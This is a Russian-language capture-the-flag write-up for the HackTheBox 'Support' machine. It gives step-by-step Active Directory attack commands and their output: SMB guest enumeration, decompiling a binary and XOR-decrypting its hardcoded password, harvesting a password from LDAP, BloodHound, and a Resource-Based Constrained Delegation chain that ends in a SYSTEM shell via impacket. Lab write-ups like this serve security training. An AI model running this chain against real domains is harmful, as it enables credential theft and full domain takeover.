# HackTheBox — Support (Active Directory)

Райтап по прохождению машины **Support** на HackTheBox — лёгкий бокс, сфокусированный на Active Directory. Вариантов прохождения несколько, ниже показан один из них.

## Содержание

- [1. Сканирование портов](#1-сканирование-портов)
- [2. Добавление домена в /etc/hosts](#2-добавление-домена-в-etchosts)
- [3. Проверка доступных SMB-шар](#3-проверка-доступных-smb-шар)
- [4. Анализ UserInfo.exe](#4-анализ-userinfoexe)
- [5. Поиск пароля пользователя support](#5-поиск-пароля-пользователя-support)
- [6. Получение user-флага](#6-получение-user-флага)
- [7. BloodHound: поиск пути эскалации](#7-bloodhound-поиск-пути-эскалации)
- [8. Эскалация через Resource-Based Constrained Delegation](#8-эскалация-через-resource-based-constrained-delegation)
- [9. Получение root-флага](#9-получение-root-флага)

---

## 1. Сканирование портов

Начинаем со стандартного сканирования портов:

```bash
sudo nmap -sC -sV <ip>
```

Результат:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-31 22:40:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

Host script results:
| smb2-time:
|   date: 2026-10-31T22:40:54
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```



Набор портов однозначно указывает на Active Directory:

| Порт | Служба | Значение |
|------|--------|----------|
| 53/tcp | DNS | критична для разрешения хостов внутри домена |
| 88/tcp | Kerberos | аутентификация, выдача TGT/TGS-тикетов — ключевой момент для многих атак в AD |
| 389, 3268/tcp | LDAP / Global Catalog | служба каталогов AD, используется для разведки (например, через BloodHound) |
| 445/tcp | SMB (microsoft-ds) | общий доступ к файлам/папкам, проверка уязвимостей, взаимодействие с административными шарами (ADMIN$) |
| 5985/tcp | WinRM | интерактивная командная строка (Evil-WinRM) после получения валидных учётных данных |

## 2. Добавление домена в /etc/hosts

Обнаружен домен `support.htb`, добавляем его в `/etc/hosts`:

```bash
echo "<ip> support.htb dc.support.htb" | sudo tee -a /etc/hosts
```

**Зачем это нужно:**

- **Разрешение имён (DNS-резолвинг).** Система не знает, какому IP соответствуют `support.htb` и `dc.support.htb`. Без этой записи утилиты (bloodhound-python, impacket, nxc) не смогут достучаться до сервера по имени домена.
- **Протоколы AD.** Kerberos, LDAP и SMB в доменной среде жёстко завязаны на имена хостов и FQDN. Без прописанного домена большинство эксплойтов и средств автоматизации не смогут сформировать корректные запросы аутентификации.

## 3. Проверка доступных SMB-шар

**NetExec** (ранее CrackMapExec, `nxc`) — инструмент для пентеста Windows-сетей и Active Directory: массовая проверка учётных данных, сбор информации, выполнение команд через легитимные протоколы (SMB, WinRM, LDAP и др.).

**Шары (shares)** — сетевые каталоги на серверах Windows. В них часто случайно оставляют:
- пароли в открытом виде (в текстовых файлах или скриптах);
- конфигурационные файлы с доступом к базам данных;
- чувствительные документы сотрудников или бэкапы;
- шары с правом записи, позволяющим загрузить вредоносный файл (например, в папки автозагрузки или веб-серверов).

Проверяем шары от имени гостевой учётной записи:

```bash
nxc smb <ip> -u "guest" -p "" --shares
```

```
SMB    <ip>  445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB    <ip>  445  DC  [+] support.htb\guest:
SMB    <ip>  445  DC  [*] Enumerated shares
SMB    <ip>  445  DC  Share         Permissions  Remark
SMB    <ip>  445  DC  -----         -----------  ------
SMB    <ip>  445  DC  ADMIN$                     Remote Admin
SMB    <ip>  445  DC  C$                         Default share
SMB    <ip>  445  DC  IPC$          READ         Remote IPC
SMB    <ip>  445  DC  NETLOGON                   Logon server share
SMB    <ip>  445  DC  support-tools READ         support staff tools
SMB    <ip>  445  DC  SYSVOL                     Logon server share
```



Разбор шар:

- **ADMIN$ и C$** — стандартные административные ресурсы. Доступ только у привилегированных учётных записей (гостю права не отобразились).
- **IPC$ (READ)** — служебный ресурс межпроцессного взаимодействия. Используется для анонимного/аутентифицированного перечисления пользователей, политик и служб AD, файлы хранить нельзя.
- **NETLOGON и SYSVOL** — стандартные доменные шары контроллера домена: скрипты входа (logon scripts), GPO, файлы конфигурации домена.
- **support-tools (READ)** — нестандартная кастомная шара (описание «support staff tools»). Поскольку гость имеет READ, это главный кандидат на первичный осмотр.

Подключаемся к шаре `support-tools` через `smbclient`:

```bash
smbclient //<ip>/support-tools -U "guest"
# пароль — просто Enter
```

```
smb: \> ls
  .                      D        0  Wed Jul 20 13:01:06 2022
  ..                     D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe     A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip      A  5439245  Sat May 28 07:19:55 2022
  putty.exe                       A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip           A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe       A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe A 44398000  Sat May 28 07:19:43 2022

smb: \> get UserInfo.exe.zip
```



Среди стандартных админских утилит (PuTTY, Wireshark, Sysinternals) выделяется `UserInfo.exe.zip` — скачиваем его командой `get`.

## 4. Анализ UserInfo.exe

Распаковываем архив:

```bash
unzip UserInfo.exe.zip
```

Содержимое: `UserInfo.exe`, `UserInfo.exe.config` и набор системных DLL (System.Threading.Tasks.Extensions, System.Runtime.CompilerServices, System.Numerics.Vectors, System.Memory, System.Buffers, Microsoft.Extensions.Logging, Microsoft.Extensions.Dependency*, Microsoft.Bcl.AsyncInterfaces, CommandLineParser) — типичная .NET-сборка.



Самое интересное — бинарник `UserInfo.exe`. Декомпилируем его онлайн-сервисом [decompiler.com](https://www.decompiler.com), скачиваем и распаковываем результат.



Основные файлы — в папке `UserInfo.Services`: `Protected.cs` и `LdapQuery.cs`.



### Protected.cs

```csharp
using System;
using System.Text;

namespace UserInfo.Services;

internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

Алгоритм расшифровки:

1. Строка `enc_password` декодируется из Base64 в массив байтов.
2. К каждому байту применяется XOR с символами ключа `"armando"` (циклически, через оператор остатка от деления `%`), дополнительно XOR с маской `0xDF`.
3. Результат конвертируется обратно в строку — получаем пароль в открытом виде.

Воспроизводим это на Python:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

decoded_bytes = base64.b64decode(enc_password)
array2 = bytearray(decoded_bytes)
for i in range(len(decoded_bytes)):
    array2[i] = decoded_bytes[i] ^ key[i % len(key)] ^ 0xDF

print(array2.decode("utf-8", errors="ignore"))
```

```bash
$ python3 main.py
nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
```



### LdapQuery.cs

```csharp
using System;
using System.Collections;
using System.DirectoryServices;

namespace UserInfo.Services;

internal class LdapQuery
{
    private DirectoryEntry entry;
    private DirectorySearcher ds;

    public LdapQuery()
    {
        string password = Protected.getPassword();
        entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
        entry.AuthenticationType = (AuthenticationTypes)1;
        ds = new DirectorySearcher(entry);
    }

    public void query(string first, string last, bool verbose = false)
    {
        // построение LDAP-фильтра по first/last, вывод sAMAccountName
    }

    public void printUser(string username, bool verbose = false)
    {
        // вывод givenName, sn, mail, pwdLastSet для указанного пользователя
    }
}
```

`LdapQuery.cs` использует расшифрованный пароль для подключения к Active Directory от имени доменной учётной записи:

```
Пользователь: support\ldap
Пароль:       nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
```

## 5. Поиск пароля пользователя support

Порт 5985 (WinRM) открыт, но сам по себе это не значит, что у пользователя `ldap` есть права на подключение — для WinRM обычно нужно членство в соответствующей группе (Administrators, Remote Management Users и т.п.).

Проверяем:

```bash
nxc winrm <ip> -u 'ldap' -p 'nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz'
```

```
WINRM  <ip>  5985  DC  [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM  <ip>  5985  DC  [-] support.htb\ldap:nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
```



У пользователя `ldap` прав нет. Смотрим, кто состоит в группе **Remote Management Users**:

```bash
nxc ldap <ip> -u "ldap" -p 'nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz' -d support.htb --groups "Remote Management Users"
```

```
LDAP  <ip>  389  DC  [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert)
LDAP  <ip>  389  DC  [+] support.htb\ldap:nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
LDAP  <ip>  389  DC  support
```



Пользователь `support` состоит в этой группе, но его пароля у нас пока нет.

Проверяем стандартный атрибут `info` на предмет чувствительной информации:

```bash
nxc ldap <ip> -u 'ldap' -p 'nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz' -d support.htb -M get-info-users
```

```
LDAP        <ip>  389  DC  [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
LDAP        <ip>  389  DC  [+] support.htb\ldap:nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
GET-INFO... <ip>  389  DC  [+] Found following users:
GET-INFO... <ip>  389  DC  User: support   Info: Ironside47pleasure40Watchful
```



Найден пароль: **`Ironside47pleasure40Watchful`**.

## 6. Получение user-флага

Подключаемся через `evil-winrm`:

```bash
evil-winrm -i <ip> -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Documents> cat C:\Users\support\Desktop\user.txt
030efb9e13a5aa44...
```



User-флаг получен.

## 7. BloodHound: поиск пути эскалации

После получения учётной записи `support` у нас стандартный доступ к домену, но прямого пути к административным правам не видно. **BloodHound** — инструмент анализа безопасности AD, использующий теорию графов для отображения скрытых путей и связей между пользователями, компьютерами, группами и правами (ACL).

Он позволяет:
- быстро собрать информацию о правах и членстве в группах по всему домену (`bloodhound-python`);
- импортировать собранные данные в графический интерфейс;
- найти короткие пути эскалации привилегий (например, опасное право `GenericAll` у нашего пользователя на объект контроллера домена, что открывает возможность атаки Resource-Based Constrained Delegation).

Собираем данные о домене от имени `support`:

```bash
bloodhound-python -u 'support' -p 'Ironside47pleasure40Watchful' -d 'support.htb' \
  -dc 'dc.support.htb' -ns '<ip>' -c All
```

```
INFO: Found AD domain: support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Done in 00M 37S
```



Запускаем Neo4j и BloodHound:

```bash
sudo neo4j start
```



```bash
bloodhound-start
```



Импортируем полученные `.json`-файлы в интерфейс и анализируем граф.



**Результат анализа:** пользователь `SUPPORT@SUPPORT.HTB` входит в группу `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB`, у которой есть право **`GenericAll`** на объект `DC.SUPPORT.HTB`.

`GenericAll` фактически даёт полный контроль над объектом (как права администратора для этого конкретного объекта AD). Поскольку объектом является контроллер домена, это открывает прямой путь к атаке **Resource-Based Constrained Delegation (RBCD)**, позволяющей полностью захватить домен.

## 8. Эскалация через Resource-Based Constrained Delegation

Имея право `GenericAll` на контроллер домена, можно выполнить атаку RBCD: от имени созданного нами компьютера получить билет для аутентификации от имени любого пользователя (включая администратора домена) на контроллере.

### Шаг 1. Создание нового компьютерного объекта (TESTPC$)

По умолчанию в большинстве конфигураций AD обычные доменные пользователи могут создавать до 10 компьютерных учётных записей в домене (параметр `Ms-DS-Machine-Account-Quota`). Используем учётные данные `support`:

```bash
impacket-addcomputer support.htb/support:Ironside47pleasure40Watchful \
  -computer-name 'TESTPC$' -computer-pass 'Password123!' -dc-ip <ip>
```

```
[*] Successfully added machine account TESTPC$ with password Password123!.
```



### Шаг 2. Настройка прав делегирования (RBCD)

Используя право `GenericAll` на контроллер домена, изменяем атрибут `msDS-AllowedToActOnBehalfOfOtherIdentity` объекта DC, разрешая нашему новому компьютеру `TESTPC$` выполнять делегирование:

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful \
  -action write -delegate-from 'TESTPC$' -delegate-to 'DC$' -dc-ip <ip>
```

```
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TESTPC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TESTPC$    (S-1-5-21-1677581083-3380853377-188903654-6101)
```



Атрибут успешно изменён — теперь `TESTPC$` может выдавать себя за других пользователей на контроллере домена (`DC$`).

### Шаг 3. Запрос доменного билета (S4U) от имени администратора

Используя `TESTPC$`, задействуем механизмы S4U2Self и S4U2Proxy, чтобы получить билет Kerberos (ccache) для пользователя `Administrator` к службе CIFS контроллера домена:

```bash
impacket-getST support.htb/TESTPC$:Password123! -impersonate Administrator \
  -spn cifs/dc.support.htb -dc-ip <ip>
```

```
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```



### Шаг 4. Экспорт переменной среды Kerberos

Чтобы утилиты Impacket использовали полученный билет для аутентификации:

```bash
export KRB5CCNAME=$PWD/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```



## 9. Получение root-флага

Подключаемся к контроллеру домена через `psexec`, используя Kerberos-билет (без передачи пароля):

```bash
impacket-psexec support.htb/Administrator@dc.support.htb -k -no-pass
```

```
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file ibzlKeef.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lbMV on dc.support.htb.....
[*] Starting service lbMV.....
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
6adfc1db969...
```



Успешное подключение: загрузка исполняемого файла на записываемую шару `ADMIN$`, создание временной службы и получение интерактивной командной строки с правами **NT AUTHORITY\SYSTEM** на контроллере домена.

---

## Итоговый путь атаки

1. Nmap-сканирование подтверждает Active Directory (Kerberos, LDAP, SMB).
2. Гостевой доступ к SMB-шаре `support-tools` → скачивание `UserInfo.exe.zip`.
3. Декомпиляция `UserInfo.exe` → извлечение захардкоженного зашифрованного пароля и алгоритма XOR-расшифровки.
4. Расшифровка пароля учётной записи `support\ldap`.
5. LDAP-перечисление атрибута `info` → пароль пользователя `support` в открытом виде.
6. Подключение по WinRM от имени `support` → **user-флаг**.
7. BloodHound выявляет право `GenericAll` группы `support` на объект контроллера домена.
8. Атака RBCD: создание компьютерного объекта → настройка делегирования → S4U2Self/S4U2Proxy → получение билета `Administrator`.
9. `psexec` с Kerberos-билетом → **root-флаг** (NT AUTHORITY\SYSTEM).
